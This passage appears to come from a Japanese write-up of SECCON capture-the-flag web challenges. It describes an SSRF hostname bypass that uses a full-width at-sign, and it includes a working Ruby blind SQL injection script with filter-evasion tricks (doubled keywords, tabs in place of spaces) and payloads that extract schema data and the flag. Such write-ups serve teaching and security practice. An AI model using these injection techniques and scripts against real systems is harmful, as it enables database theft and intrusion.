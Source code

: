 
`http://a＠nginx/flag.php`のような文字列を URLParse すると、`a＠nginx`がホスト名となるためホスト名のチェックを通過する。HTTP からのデータの取得時には URL が idn_to_ascii によって変換されるため、`http://a@nginx/flag.php`となり、これはユーザー名`a`でホスト名が`nginx`ということになるので無事目的のサーバーにリクエストできる。


```text
SECCON{what_a_easy_bypass_314208thg0n423g}
```


# web_search(Web 212pts)


`or`や`and`がフィルターで削除されているが、これらは、`oorr`のようにすることでバイパスできる。
`,`や(半角空白)の削除はバイパスできないが、空白文字列は’(タブ)で代替することができる。
`,`の利用の JOIN による回避が思い付かず、思考停止でブラインド SQL Injection をしてしまった。


```ruby
require 'shellwords'

target = "' and '%s' < (select hex(group_concat(table_name)) from information_schema.columns WHERE table_schema = database()) ; -- " # flag,articles,articles,articles,articles,articles
target = "' and '%s' < (select hex(group_concat(column_name)) from information_schema.columns WHERE table_schema = database()) ; -- " # piece,id,title,description,reference,status
target = "' and '%s' < (select hex(piece) from flag); -- " # You_Win_Yeah}
target = "' and '%s' < (select hex(group_concat(description)) from articles where status = 1); -- " # "The flag is \"SECCON{Yeah_Sqli_Success_

def check(query)
    p query
    query.gsub!('or', 'oorr')
    query.gsub!('and', 'aandnd')
    query.gsub!(" ", "\t")
    ret = `curl -g -s #{('http://web-search.chal.seccon.jp/?q=' + query).shellescape}`
    fail ret if ret.include?("Error\n<p>\n")
    ret.size > 1000
end
result = ''
while true
    low, high = 10, 128
    while low + 1 < high
        mid = (low + high) / 2
        if check(target % ((result + mid.chr).unpack1('H*')))
            low = mid
        els
            high = mid
        end
    end
    result += low.chr
    p result
end
```
